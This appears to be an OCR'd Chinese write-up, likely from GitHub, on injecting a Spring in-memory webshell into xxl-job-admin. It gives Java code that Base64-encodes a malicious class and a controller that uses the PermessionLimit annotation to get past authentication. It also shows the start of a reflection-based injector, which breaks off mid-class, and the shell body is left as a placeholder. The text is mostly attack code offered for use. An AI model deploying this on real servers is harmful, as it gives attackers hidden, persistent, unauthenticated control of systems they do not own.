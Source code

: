 ## Spring内存马

这里需要使用`EncodeClass`将`Behind`转为字符，然后将其填入`SpringControllerNeedle`的`classCode`中。

`SpringControllerNeedle`原本的代码逻辑比较简单，可以参考`https://github.com/bitterzzZZ/MemoryShellLearn`，但是这里不得不使用反射，所以代码变得复杂。

另外，为了让我们访问webshell的时候不必带认证Cookie，我们需要添加xxl-job-admin的`PermessionLimit`注解。

```java
package com.blood;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import sun.misc.BASE64Encoder;
/**
 *获取将需要加载到内存的马的字节码的BAE64字符
 */
public class EncodeClass {
    public static void main(String[] args) throws Exception {
        BASE64Encoder encoder = new BASE64Encoder();
        JavaClass cls = Repository.lookupClass(Behind.class);
        byte[] classBytes = cls.getBytes();
        String b64Class = encoder.encode(classBytes);
        System.out.println(b64Class.replaceAll("\\s",""));
    }
}

```

```java
package com.blood;
//import com.xxl.job.admin.controller.annotation.PermessionLimit;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class Behind {
    //避免认证，加入xxl-job-admin的注解即可,但实际业务环境对包名进行了修改..所以没有啥用
    //@PermessionLimit(limit=false)
    @PermessionLimit(limit=false)
    public void index(HttpServletRequest req, HttpServletResponse resp) {
        try {
            if (req.getMethod().equals("POST")) {
                //你的内存马
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

```java
package com.needle;
import java.lang.reflect.*;
import java.util.Iterator;
import java.util.Map;
/**
 * Reference https://github.com/bitterzzZZ/MemoryShellLearn
 */
public class SpringControllerNeedle {

    static{
        String classCode =
                "EncodeClass后的base64字符";
        String targetClass = "com.blood.Behind";
```